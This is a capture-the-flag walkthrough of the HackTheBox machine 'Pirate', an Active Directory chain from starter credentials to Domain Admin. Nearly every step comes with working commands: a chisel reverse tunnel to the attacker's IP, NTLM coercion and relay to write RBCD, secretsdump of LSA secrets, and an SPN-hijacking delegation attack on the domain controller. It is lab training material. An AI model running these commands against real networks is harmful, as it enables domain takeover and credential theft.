





# HackTheBox — Pirate (Hard, Windows)

Pirate is a Hard-rated Windows Domain Controller that simulates a real enterprise pentest engagement — you're handed starting credentials, told to go deeper, and left to figure out a chain spanning ADFS internals, gMSA abuse, Hyper-V pivoting, and Kerberos delegation attacks. Every step requires understanding *why* the technique works, not just running a script.

> **Prerequisites:** This walkthrough assumes familiarity with Active Directory enumeration (BloodHound, LDAP queries), Kerberos authentication flows (TGT/TGS, S4U2Self/S4U2Proxy, constrained delegation), ADFS architecture and token signing, and general Windows privilege escalation concepts. If you haven't done boxes like Absolute or Escape first, some sections will be dense.

---

## Overview

The box provides low-privilege domain credentials (`pentest:p3nt3st2025!&`) to simulate a pentest kickoff. From there, the chain looks roughly like:

1. Work around the password's shell-breaking metacharacters using Kerberos ccache auth
2. Abuse Pre-Windows 2000 Compatible Access to authenticate as MS01$ and read gMSA passwords
3. Use gMSA_ADFS_prod$ WinRM access to extract the ADFS DKM key from LDAP and signing certificates from the Windows Internal Database
4. Pivot through DC01 (Hyper-V host) to WEB01 (Hyper-V guest) via chisel tunnel
5. NTLM relay WEB01$'s authentication to DC01 LDAPS, write RBCD, impersonate Administrator to secretsdump WEB01
6. Recover a.white's cleartext password from LSA secrets (AutoAdminLogon)
7. Exploit a.white's ForceChangePassword right on a.white_adm, then abuse that account's constrained delegation + SPN write rights to get a Domain Admin ticket

It's a long chain. Let's get into it.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scanning

RustScan identified 16 open TCP ports, which I fed into a targeted Nmap service scan:




This is a textbook Domain Controller profile. Port 80 was interesting — IIS serving ADFS endpoints — but every request returned 503. The backend web server (WEB01) isn't directly reachable from outside. Nmap also detected a 7-hour clock skew, which means Kerberos auth will fail until we sync:

```bash
sudo ntpdate -u $TARGET
```

### Domain Topology

LDAP enumeration revealed a three-host environment:

| Host | IP | Role |
|------|----|------|
| DC01 | 10.129.x.x (external) / 192.168.100.1 (internal) | Domain Controller + Hyper-V host |
| WEB01 | 192.168.100.2 (internal only) | Hyper-V guest — IIS + ADFS |
| MS01 | Unknown | Domain-joined, possibly offline |

DC01 is the Hyper-V host. WEB01 is a guest that only exists on the internal `192.168.100.0/24` subnet. This means any attack against WEB01 requires pivoting through DC01.

### Key Accounts

LDAP enumeration (via `netexec ldap` with Kerberos ccache — more on that below) surfaced several interesting accounts:

- **a.white_adm** — Member of the IT group, has SPN `ADFS/a.white`, and is configured for *constrained delegation with protocol transition* to `HTTP/WEB01.pirate.htb`. This is a powerful delegation configuration — it means this account can impersonate any user to that service without needing their credentials.
- **gMSA_ADFS_prod$** — Group Managed Service Account, SPN `host/adfs.pirate.htb`, in Remote Management Users (WinRM access), 50 logons. This is the account running ADFS on WEB01.
- **gMSA_ADCS_prod$** — Another gMSA, in Remote Management Users + Domain Computers. Zero logons — probably unused.
- **MS01$** — Computer account in **Domain Secure Servers** and **Pre-Windows 2000 Compatible Access**. This last group is critical.

The `msDS-GroupMSAMembership` attribute on both gMSAs resolved to the **Domain Secure Servers** group (SID ending in RID 4101). This tells us which accounts can read the gMSA passwords — any member of Domain Secure Servers. MS01$ is the only non-DC member of that group.

---

## Foothold

### Step 1: The Password Problem

The provided credential `p3nt3st2025!&` contains `!` (bash history expansion) and `&` (background process operator). This breaks argument parsing in literally every tool — netexec, smbclient, rpcclient, ldapsearch, you name it. Even careful quoting fails in most shells.

The solution: obtain a Kerberos TGT using Python's subprocess (bypassing the shell entirely), then use the ccache file for everything:

```bash
python3 -c "
import subprocess, sys
subprocess.run([
    sys.executable, '-c',
    'from impacket.krb5.kerberosv5 import getKerberosTGT; '
    'from impacket.krb5.types import Principal; '
    'from impacket.krb5 import constants; '
    'from impacket.krb5.ccache import CCache; '
    'userName = Principal(\"pentest\", type=constants.PrincipalNameType.NT_PRINCIPAL.value); '
    'tgt, cipher, oldSessionKey, sessionKey = getKerberosTGT(userName, \"p3nt3st2025!&\", \"pirate.htb\"); '
    'ccache = CCache(); '
    'ccache.fromTGT(tgt, oldSessionKey, sessionKey); '
    'ccache.saveFile(\"pentest.ccache\"); '
    'print(\"TGT saved to pentest.ccache\")'
])
"
export KRB5CCNAME=$(pwd)/pentest.ccache
```

From here, every impacket tool uses `-k --use-kcache` (or `-k -no-pass`) and never touches the raw password string again.

### Step 2: Kerberoasting a.white_adm

With a valid Kerberos ticket for `pentest`, we can Kerberoast any account with an SPN:

```bash
impacket-GetUserSPNs -k -no-pass -dc-host DC01.pirate.htb pirate.htb/pentest -request
```

This returned a TGS hash for `a.white_adm` (SPN: `ADFS/a.white`). I threw it at hashcat with rockyou + the dive ruleset on an RTX 4090. No crack. The password is strong enough that Kerberoasting is a dead end here — we'll need a different path to this account.

### Step 3: Exploiting Pre-Windows 2000 Compatible Access

This is the first key insight of the box. Computer accounts enrolled via the old "Pre-Windows 2000 Compatible Access" compatibility mode are created with a **default password equal to the lowercase computer name** (without the `$`). MS01$ was clearly created this way, and it's never had its password changed.

```bash
impacket-getTGT pirate.htb/'MS01$':'ms01' -dc-ip $TARGET
export KRB5CCNAME=$(pwd)/MS01\$.ccache
```

This works. Now authenticating as MS01$ — a member of Domain Secure Servers — we can read the gMSA passwords:

```bash
netexec ldap DC01.pirate.htb -k --use-kcache --gmsa
```




Two gMSA NTLM hashes. Let's see what we can do with them.

### Step 4: WinRM as gMSA_ADFS_prod$

Both gMSAs are in Remote Management Users, so WinRM pass-the-hash works:

```bash
evil-winrm -i $TARGET -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839'
```

Important caveat: netexec shows "Pwn3d!" for both accounts, but that just means WinRM execution works — it does *not* mean local admin. The gMSA is in Remote Management Users only. We're running at Medium Plus integrity with only `SeChangeNotifyPrivilege` and `SeIncreaseWorkingSetPrivilege`. No DCSync, no SCM access, no ADFS PowerShell cmdlets.

### Step 5: ADFS DKM Key Extraction

The ADFS Distributed Key Manager (DKM) master key is what encrypts the ADFS configuration, including the token signing certificate. It lives in LDAP at:

```
CN=ADFS,CN=Microsoft,CN=Program Data,DC=pirate,DC=htb
```

As `gMSA_ADFS_prod$` — the service account running ADFS — we have read access to this container. The key itself is stored in the `thumbnailPhoto` attribute on contact objects inside the DKM container. Querying it out and base64-decoding gives us the DKM key:

```
DKM Key (base64): fFtRNXRYzZjwD37MB/Rgu/x96WiVB0xO/SkbWnU6LOQ=
```

Save it to a file for use with ADFSpoof later.

### Step 6: Pivoting to WEB01 via Chisel

WEB01 at `192.168.100.2` is only reachable from DC01. We upload chisel to DC01 and create a reverse SOCKS proxy:

```bash
# Kali: start the server
chisel server --reverse -p 9001

# DC01 (via netexec WinRM — the blocking session keeps the tunnel alive):
netexec winrm $TARGET -u 'gMSA_ADFS_prod$' -H '8126756fb2e69697bfcb04816e685839' \
  -X 'C:\Windows\Temp\chisel.exe client <VPN_IP>:9001 R:socks'
```

Add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf`. Now proxychains routes through DC01 into the internal network.

Also add `192.168.100.2 adfs.pirate.htb WEB01.pirate.htb` to `/etc/hosts`.

### Step 7: ADFS Signing Certificate via WID

ADFS on WEB01 stores its configuration in the Windows Internal Database (WID), accessible via named pipe:

```powershell
$conn = New-Object System.Data.SqlClient.SqlConnection(
  "Server=np:\\.\pipe\microsoft##wid\tsql\query;Database=AdfsConfigurationV4;Integrated Security=True")
```

As `gMSA_ADFS_prod$`, we're `db_owner` on `AdfsConfigurationV4` via the `db_genevaservice` role. This lets us query the `ServiceSettings` table, which contains `EncryptedPfx` blobs — the ADFS signing and encryption certificates, wrapped with the DKM key.

I pulled both blobs, base64-decoded them to binary files, then used ADFSpoof to decrypt them. The tool needed some patching for modern `cryptography` library APIs (replacing deprecated `utils._check_bytes()` with `isinstance()`, removing the `backend=` parameter from HMAC, etc.), but once patched:

```bash
python3 ADFSpoof.py -b ../pfx1_encrypted.bin ../dkm_key.bin dump --path ../token_signing.pfx
python3 ADFSpoof.py -b ../pfx2_encrypted.bin ../dkm_key.bin dump --path ../token_signing2.pfx
```

`token_signing2.pfx` decrypts to `CN=ADFS Signing - adfs.pirate.htb` — the token-signing certificate. Extract PEM files:

```bash
openssl pkcs12 -in token_signing2.pfx -nocerts -nodes -out /tmp/adfs_signing.key -passin pass:
openssl pkcs12 -in token_signing2.pfx -clcerts -nokeys -out /tmp/adfs_signing.crt -passin pass:
```

We can now forge ADFS tokens — though as it turns out, the NTLM relay path ends up being more direct.

---

## The Pivot Problem (and the Dead Ends)

This is where I spent a *lot* of time. The attack path confirmed by published writeups involves:

1. Coerce WEB01$ to authenticate via NTLM
2. Relay that auth to DC01 LDAPS
3. Write RBCD (msDS-AllowedToActOnBehalfOfOtherIdentity) for our attacker machine account (EVIL$)
4. S4U2Proxy → secretsdump WEB01 → a.white cleartext from LSA secrets

The blocker: how does WEB01's coerced NTLM auth reach ntlmrelayx on Kali?

The documented approach in multiple writeups is to add `192.168.100.50/24` to Kali's ligolo TUN interface, making Kali reachable on the internal subnet. I spent three sessions trying to make this work. The problem: WEB01 ARPs for `192.168.100.50` locally on the Hyper-V virtual switch, and nobody on that switch has that address. The ligolo agent does source NAT — it doesn't respond to ARP on the remote network. DC01 has proxy ARP disabled. WEB01's ARP requests get no response; the connection times out.

I tried ligolo `listener_add` on various ports on DC01. Windows `SO_EXCLUSIVEADDRUSE` made most ports impossible to dual-bind — LDAP (389/636), SMB (445), HTTP (80/443), Kerberos (88) are all exclusively bound. Port 139 accepted a dual bind with `0.0.0.0`, but DC01's specific `192.168.100.1:139` binding wins for traffic destined to that IP. `netsh interface portproxy` requires admin. `netsh interface ipv4 set interface` (to enable weak host receive) requires admin. We're not admin on DC01.

RemotePotato0 mode 2 failed — Server 2019 requires the RogueOxidResolver on port 135, which is occupied by MSRPC on every reachable host.

After expert consultation and reviewing published writeups, the actual solution was embarrassingly simple: **test whether WEB01 can reach Kali's VPN IP directly.**

```powershell
# From WEB01 WinRM:
(New-Object Net.Sockets.TcpClient).ConnectAsync("<VPN_IP>", 445).Wait(3000)
```

It can. DC01 routes between `192.168.100.0/24` and the VPN. WEB01's default gateway is DC01, and DC01 forwards traffic to the external network. There was never a need for `192.168.100.50` at all.

**The lesson: always test direct VPN IP reachability before building complex tunnel infrastructure.**

### Executing the NTLM Relay

First, create a machine account for RBCD:

```bash
impacket-addcomputer pirate.htb/pentest -dc-ip $TARGET -computer-name 'EVIL$' \
  -computer-pass 'EvilPass123!' -k -no-pass
```

Start ntlmrelayx targeting DC01's LDAPS, configured to write RBCD for EVIL$:

```bash
tmux new-session -d -s relay 'sudo impacket-ntlmrelayx -t ldaps://<TARGET> \
  --delegate-access --remove-mic --escalate-user EVIL$ -smb2support'
```

Then coerce WEB01$ using Coercer (in a Python venv to avoid impacket version conflicts):

```bash
source env/bin/activate
python3 -m coercer coerce -l $VPN_IP -t 192.168.100.2 \
  -u 'gMSA_ADFS_prod$' --hashes ':8126756fb2e69697bfcb04816e685839' \
  -d pirate.htb --filter-protocol-name MS-EFSR --always-continue
```




### S4U2Proxy → secretsdump → a.white Cleartext

With EVIL$ having delegation rights over WEB01$:

```bash
impacket-getST -spn 'cifs/WEB01.pirate.htb' -impersonate Administrator \
  pirate.htb/'EVIL$':'EvilPass123!' -dc-ip <TARGET>

export KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
impacket-secretsdump -k -no-pass WEB01.pirate.htb -dc-ip <TARGET>
```




`DefaultPassword` in LSA secrets means AutoAdminLogon was configured with a.white's credentials stored there. We now have a.white's cleartext password: `E2nvAOKSz5Xz2MJu`. The user flag is on WEB01 at `C:\Users\a.white\Desktop\user.txt` — grab it via the impersonated session.

---

## Privilege Escalation

### a.white → a.white_adm

Earlier enumeration revealed a critical ACL: **a.white has `User-Force-Change-Password` (ExtendedRight) on a.white_adm**. This means a.white can reset a.white_adm's password without knowing the current one:

```bash
net rpc password a.white_adm 'Password99' \
  -U 'pirate.htb/a.white%E2nvAOKSz5Xz2MJu' -S DC01.pirate.htb
```

### a.white_adm → Domain Admin via SPN Hijacking

This is the most elegant part of the chain. Let me explain the setup:

- **a.white_adm** has constrained delegation with protocol transition to `HTTP/WEB01.pirate.htb` (`msDS-AllowedToDelegateTo = HTTP/WEB01.pirate.htb`). Protocol transition means it can perform S4U2Self (get a ticket for any user) and then S4U2Proxy (forward it to the delegated service). In theory, this gives us admin on WEB01 — but we already have that.
- **a.white has WriteSPN on DC01$** — it can add and remove Service Principal Names from the DC01 computer object.

The trick: the KDC validates S4U2Proxy by checking *which account owns the target SPN*, then encrypts the resulting service ticket with *that account's key*. If we can move `HTTP/WEB01.pirate.htb` from WEB01$ to DC01$, the KDC will encrypt the impersonation ticket with DC01$'s key. Then we use `-altservice` to rewrite the service name to `cifs/DC01.pirate.htb` — suddenly we have a ticket to DCSync or psexec the domain controller.

First, modify the SPNs via LDAP using ldap3 (since impacket's LDAP doesn't expose raw modify cleanly):

```python
from ldap3 import Server, Connection, MODIFY_DELETE, MODIFY_ADD

s = Server('DC01.pirate.htb', port=636, use_ssl=True)
c = Connection(s, user='pirate\\a.white', password='E2nvAOKSz5Xz2MJu', auto_bind=True)

web01_dn = 'CN=WEB01,CN=Computers,DC=pirate,DC=htb'
dc01_dn  = 'CN=DC01,OU=Domain Controllers,DC=pirate,DC=htb'

# Remove the SPN from WEB01$
c.modify(web01_dn, {'servicePrincipalName': [(MODIFY_DELETE, ['HTTP/WEB01.pirate.htb', 'HTTP/WEB01'])]})

# Add it to DC01$
c.modify(dc01_dn,  {'servicePrincipalName': [(MODIFY_ADD,    ['HTTP/WEB01.pirate.htb'])]})
```

Then S4U with the hijacked SPN and altservice:

```bash
impacket-getST -spn 'HTTP/WEB01.pirate.htb' -impersonate Administrator \
  -altservice 'cifs/DC01.pirate.htb' \
  pirate.htb/'a.white_adm':'Password99' -dc-ip <TARGET>

export KRB5CCNAME=Administrator@cifs_DC01.pirate.htb@PIRATE.HTB.ccache
impacket-wmiexec -k -no-pass DC01.pirate.htb -dc-ip <TARGET>
```




Domain Admin. Root flag collected.

---

## Lessons Learned

This box taught (or reinforced) more methodology lessons per hour than almost any other. The long list from my notes is worth preserving:

**Password metacharacters**: When passwords contain `!`, `&`, `#` or other shell metacharacters, skip CLI tools entirely. Get a Kerberos TGT via Python subprocess (no shell involved), then use `-k --use-kcache` everywhere. Never try to escape metacharacters — just route around the shell.

**Pre-Windows 2000 Compatible Access**: Computer accounts created with this group have a default password equal to the lowercase computer name (no `$`). Always check group membership during AD enumeration — finding MS01$ here unlocked the entire gMSA chain.

**gMSA password reading**: Decode `msDS-GroupMSAMembership` to a security descriptor, resolve the SID to a group, enumerate group members, authenticate as one. The membership check happens at the DC — you just need to *be* the right principal, not have special privileges.

**ADFS DKM keys live in LDAP**: The DKM container under `CN=Microsoft,CN=Program Data` holds key material in `thumbnailPhoto` on contact objects. Readable by the ADFS service account. ADFSpoof needs minor patching for modern `cryptography` library — remove deprecated `@utils.register_interface`, fix `utils._check_bytes()` and `utils.int_to_bytes()`, drop `backend=` from HMAC constructor.

**WID named pipe auth**: Connect to WID via `np:\\.\pipe\microsoft##wid\tsql\query`. The ADFS service account gets `db_owner` via `db_genevaservice` role. But `TRUSTWORTHY=False` and no sysadmin means no `xp_cmdshell` — it's a SQL extraction path, not a code execution path.

**ADFS returns 503 externally, works from localhost**: HTTP.sys drops connections externally when no listener is registered on 80/443. From WEB01 itself, `https://localhost/adfs/ls/` renders fine. Always check service accessibility from the service host itself, not just from outside.

**Test VPN IP reachability before building tunnel infrastructure**: Three sessions spent on `ip addr add 192.168.100.50/24 dev ligolo` (which fails because the ligolo agent doesn't respond to ARP on the remote network). The actual solution: WEB01 could reach Kali's VPN IP directly through DC01's routing. A 5-second TCP test from the target would have saved hours.

**Ligolo TUN ARP limitation**: `ip addr add <internal-IP>/24 dev ligolo` puts a virtual IP on your TUN interface, but the agent does *not* ARP-proxy for it on the remote network. This approach only works if the pivot host has proxy ARP enabled, or you add a secondary IP to the pivot host's interface (which requires admin). For same-subnet targets, use the pivot host's real IP or route via gateway.

**Windows SO_EXCLUSIVEADDRUSE**: SMB (445), HTTP.sys (80/443), Kerberos (88), kpasswd (464), LDAP (389/636) all use exclusive binding. You cannot dual-bind these with ligolo's `listener_add`. DNS (53), MSRPC (135), and NetBIOS (139) allow wildcard+specific coexistence — but the specific binding (e.g. `192.168.100.1:139`) wins for traffic to that IP. Plan your relay port selection around this.

**`ERROR_BAD_NETPATH` from Coercer**: This means the target *tried* to connect but couldn't reach the listener — not that the coercion RPC call failed. Don't assume authentication was sent. Verify by watching ntlmrelayx for incoming connections. This distinction cost me time.

**Coercer venv isolation**: `pip install coercer` pulls impacket 0.10.0 which breaks system impacket 0.14.0 (`parse_identity` import error). Always isolate coercer in a venv: `python3 -m venv env && source env/bin/activate && pip install coercer`. Run coercer from the venv, ntlmrelayx from the system impacket.

**ntlmrelayx needs a terminal**: Background `sudo nohup ntlmrelayx &` dies silently. Use `tmux new-session -d -s relay 'sudo impacket-ntlmrelayx ...'` so it stays alive with a controlling terminal.

**PassTheCert + broken Application Policies**: Windows evaluates the Microsoft Application Policies extension *before* EKU. If certipy's `-application-policies` flag produces a broken `0.0` OID (happens on schema v2 templates where CA ignores CSR policy extensions), Schannel identity mapping fails — regardless of what's in the EKU field. Both `a.white.pfx` and the attempted ESC15 cert were unusable for PKINIT or Schannel LDAP auth for this reason.

**SPN hijacking for constrained delegation escalation**: When you have WriteSPN on a higher-value target (DC01$) and constrained delegation to a lower-value service (HTTP/WEB01): remove the target SPN from the service computer, add it to the high-value computer, run S4U with `-altservice` to rewrite the ticket's service name. The KDC encrypts the ticket with whoever *owns* the SPN at delegation time — move the SPN, change whose key is used.

**Delegate specialist research earlier**: Four sessions of manual ADFS exploitation (WCF certificatemixed, jwt-bearer OBO, silver tickets, theme injection, C2WTS) could have been shortcut by asking "what tool handles non-admin WinRM + interactively logged-in user?" The answer — RemotePotato0 — was immediately surfaced by the exploit researcher. The actual solution (coerce via VPN IP) bypassed RemotePotato0 entirely, but the lesson stands: identify the right tool category before exhausting wrong approaches.
